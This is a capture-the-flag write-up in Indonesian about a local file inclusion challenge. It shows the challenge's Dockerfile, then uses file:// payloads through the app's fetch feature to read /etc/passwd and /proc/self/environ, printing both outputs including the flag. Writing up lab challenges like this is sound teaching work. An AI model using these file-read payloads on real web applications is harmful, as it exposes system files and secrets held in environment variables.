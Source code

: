 <H2>Topic: LFI</H2>
Tools: browser, text viewer

Untuk meyelesaikan ini kita harus mengerti tata folder yang di dalam server. maka dari itu mari kita lihat code yang di dalam file DockerFile sebagai contoh. 
``` docker
FROM denoland/deno:latest

RUN mkdir -p /ctf
WORKDIR /ctf
COPY ./src/ .
COPY ./makefile .

RUN useradd -d /home/ctf/ -m -p ctf -s /bin/bash ctf
RUN echo "ctf:ctf" | chpasswd

ENV FLAG="Bukan Flag Asli"
RUN deno cache main.ts

USER ctf

ENV PORT=1337
EXPOSE 1337
CMD deno run --no-prompt \
    --allow-env \
    --allow-read \
    --allow-net \
    main.ts  
```
menurut code yang di atas kita akan mempunyai folder `/ctf` sebagai working directory lalu seluruh file yang ada di dalam `./src` akan di copy ke dalam `/ctf` lalu kita juga mempunyai flag kita yang berada di dalam environment variable. Mencoba web yang diberikan kita tahu web ini berfungsi untuk fetch dari input yang berikan.

Maka dari itu karena topic nya merupakan LFI kita harus mencari tahu bagaimana caranya untuk membaca environment variable. Dengan mencari di google kita bisa mendapat info tentang environment variable dengan membaca `/proc/self/environ` yang dimana file itu berupa list dari semua environment variable di mesin linux. 

untuk fect nya biasanya kita bisa menggunakan cara `file://` mari kita coba payload pertama berupa 
```bash 
file:///etc/passwd
```
dengan output seperti ini
```bash
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin deno:x:1993:1993::/home/deno:/bin/sh ctf:x:1994:1994::/home/ctf/:/bin/bash
```
code di atas berarti untuk membaca file /etc/paswwd, karena kita bisa membaca payload tersebut mari kita coba dengan
```bash
file:///proc/self/environ
```
yang dimana kita mendapatkan output ini
```bash
HOSTNAME=3a6abdf511de
PORT=1337
HOME=/home/ctf/
DENO_INSTALL_ROOT=/usr/local
TERM=xterm
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
DENO_DIR=/deno-dir/
PWD=/ctf
FLAG=TCP1P{local_file_inclusion_with_fetch}
DENO_VERSION=1.29.1
```